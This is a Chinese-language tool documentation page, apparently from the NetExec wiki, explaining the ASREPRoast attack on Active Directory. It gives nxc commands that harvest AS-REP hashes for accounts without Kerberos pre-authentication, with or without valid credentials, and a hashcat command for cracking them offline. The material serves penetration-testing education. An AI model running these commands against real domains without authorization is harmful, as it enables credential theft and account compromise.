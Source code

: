 ```yaml
---
description: >-
  获取不需要 Kerberos 预认证的用户的 Kerberos 5 AS-REP etype 23 哈希
---
```


# ASREPRoast

{% hint style="success" %}
如果你有域上的用户列表,你可以获取不需要 Kerberos 预认证的用户的 Kerberos 5 AS-REP etype 23 哈希
{% endhint %}

### 无需认证

> ASREPRoast 攻击寻找不需要 Kerberos 预认证的用户。这意味着任何人都可以代表这些用户向 KDC 发送 AS_REQ 请求,并接收 AS_REP 消息。这种消息包含一个使用原始用户密钥加密的数据块,该密钥是从用户密码派生的。然后,使用这个消息可以离线破解用户密码。更多细节请参见 [Kerberos 理论](https://www.tarlogic.com/en/blog/how-kerberos-works/)。

```
nxc ldap 192.168.0.104 -u harry -p '' --asreproast output.txt
```

使用用户名列表,你可以在这里找到用户名列表

```
nxc ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt
```

{% hint style="info" %}
将密码值设置为 '' 以执行无认证测试
{% endhint %}

### 使用认证

如果你在域上有一个有效的凭证,你可以获取所有不需要 Kerberos 预认证的用户和哈希

```
nxc ldap 192.168.0.104 -u harry -p pass --asreproast output.txt
```

{% hint style="info" %}
当域名解析失败时使用 **kdcHost** 选项

```
nxc ldap 192.168.0.104 -u harry -p pass --asreproast output.txt --kdcHost domain_name
```
{% endhint %}

### 使用 hashcat 破解

要使用 hashcat 破解 output.txt 文件中的哈希,使用以下选项:

```
hashcat -m18200 output.txt wordlist
```

### 示例

Forest 机器是使用 NetExec 测试 **ASREPRoast** 的一个很好的例子

{% embed url="https://www.hackthebox.eu/home/machines/profile/212" %}

### 资源

{% embed url="https://www.tarlogic.com/en/blog/how-to-attack-kerberos/" %}

{% embed url="https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat" %}

{% embed url="https://en.hackndo.com/kerberos-asrep-roasting/" %}
